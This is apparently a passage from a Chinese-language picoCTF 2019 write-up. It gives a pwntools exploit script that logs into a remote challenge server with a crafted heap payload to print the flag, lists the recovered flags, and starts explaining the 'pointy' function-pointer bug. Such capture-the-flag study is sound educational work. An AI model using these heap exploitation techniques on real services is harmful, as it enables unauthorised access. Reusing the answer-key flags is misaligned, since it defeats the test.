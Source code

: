 ```
    }
  }
}

```
```
from pwn import *
# context.log_level='debug'
print(p64(0x4343415f544f4f52))
print(p64(0x45444f435f535345))

r=remote('2019shell1.picoctf.com', 12286)

raw_input(':')
r.sendlineafter('>','login')
r.sendlineafter('username','32')
payload='a'*8+p64(0x4343415f544f4f52)+p64(0x45444f435f535345)+'a'*8
# payload='a'*8*0+p64(0x45444f435f535345)+p64(0x4343415f544f4f52)+'a'*8

r.sendlineafter('username',payload)
r.sendlineafter('>','logout')



r.sendlineafter('>','login')
r.sendlineafter('username','1')
r.sendlineafter('username','a')



r.sendlineafter('>','print-flag')



r.interactive()

```
~~picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_8aa9bc45}~~
picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_406af1a1}
## pointy - Points: 350 - (Solves: 354)Binary Exploitation
當初看到根本不知道要從何下手

網上大大 表示 因為 兩個結構 professor student size 一樣大 4bye

所以 lastScore 偏移會對應到 那串function pointer 看下面 asm

照main正常邏輯走 它會遇到  輸入要評分的 學生 和 教授

這裡有bug 你發現 `retrieveProfessor` `retrieveStudent`

這兩函數根本一樣 都是去從 `ADDRESSES` 找東西 阿大家東西鬥也放在裡面
